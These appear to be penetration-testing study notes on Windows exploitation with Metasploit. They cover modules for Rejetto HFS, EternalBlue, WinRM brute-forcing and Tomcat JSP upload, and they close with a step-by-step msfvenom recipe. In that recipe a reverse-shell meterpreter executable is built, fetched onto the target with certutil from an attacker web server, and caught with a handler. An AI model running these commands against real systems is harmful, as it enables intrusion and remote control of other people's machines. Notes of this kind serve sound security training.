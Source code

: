 # Windows Exploitation

### Exploiting a vulnerable HTTP File Server

HTTP file server - Web server designed for file and document sharing  
Typically run on port 80  
Rejetto HFS is a popular free open source HTTP File server.  
Rejetto HFS V2.3 is vulnerable to remote command execution attack  

### Eternal blue

Eternal blue takes advantage of SMBv1  
It was developed by the NSA and leaked by the Shadow Brokers  
Used in Wannacry ransomware attack  
Module: **exploit/windows/smb/ms17_010_eternalblue**

### WinRM

Windows Remote Management Protocol  
Modules:  
- **axuiliary/scanner/winrm/winrm_auth_methods** -- tells us if its enabled
- **axuiliary/scanner/winrm/winrm_login** -- used to brute force login
  - set USER_FILE and PASS_File 
- **axuiliary/scanner/winrm/winrm_cmd** -- this will allow you to send commands
- **exploit/windows/winrm/winrm_script_exec** -- Grants you a meterpreter session

### Apache Tomcat Server

Apache runs on port 80  
Tomcat runs on 8080  
Tomcat version 8.5.19 is vulnerable to remote code execution

Module - **exploit/multi/http/tomcat_jsp_upload**
- set payload java/jsp_shell_bind_tcp
- if host is running Windows, you can set the shell to CMD for this module -- set shell cmd

## Generating payload with msfvenom to send with exploit for the meterpreter session

This can be added as a payload to exploits  
1. ```msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.22.5 LPORT=1234 -f exe > meterpreter.exe```  
2. Now we want to transfer to target system using webserver -- ```sudo python -m SimpleHTTPServer 80```
3. Downloading the payload on the target machine -- ```certutil -urlcache -f http://(web server IP)/meterpreter.exe meterpreter.exe```
4. Terminate web server
5. Create rc script
   - Create .rc file
   - use multi/handler
   - set payload windows/meterpreter/reverse_tcp
   - set LHOST (IP in msfvenom)
   - Set LPORT (port in MSFVenom)
   - Run
6. Launch resource script -- ```msfconsole -r handler.rc```
7. Run file on target -- ```.\meterpreter.exe```
